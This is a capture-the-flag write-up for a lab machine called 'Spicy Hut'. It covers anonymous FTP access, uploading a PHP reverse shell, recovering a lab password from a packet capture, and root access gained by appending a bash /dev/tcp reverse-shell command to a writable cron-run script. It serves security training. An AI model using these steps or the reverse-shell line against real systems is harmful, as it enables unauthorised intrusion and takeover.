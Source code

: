 ```yaml
---
sticker: emoji//1f336-fe0f
---
```


# SPICY HUT

## ENUMERATION

### OPEN PORTS

Let's begin with a simple Nmap scan:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165247.png) Let's try to change the hex for the file into a jpg, and try again:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165422.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration

### FUZZING

Using FFUF to fuzz the website, I found this directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165753.png)

### SOURCE CODE

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165822.png)

## EXPLOITATION

### FILES DIRECTORY

![](gitbook/cybersecurity/images/Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a \[\[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

![](gitbook/cybersecurity/images/Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the \[\[STABLE SHELL|stable shell tricks]]

![](gitbook/cybersecurity/images/Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.

## PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023175658.png)

If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023180944.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020241023180951.png)

Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](gitbook/cybersecurity/images/Pasted%20image%2020241023182848.png) We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from \[\[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` ![](gitbook/cybersecurity/images/Pasted%20image%2020241023183424.png) I found a planner.sh and startup\_list.txt, second file did not have anything useful, but first file, had this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![](gitbook/cybersecurity/images/Pasted%20image%2020241023184153.png)

Gg!
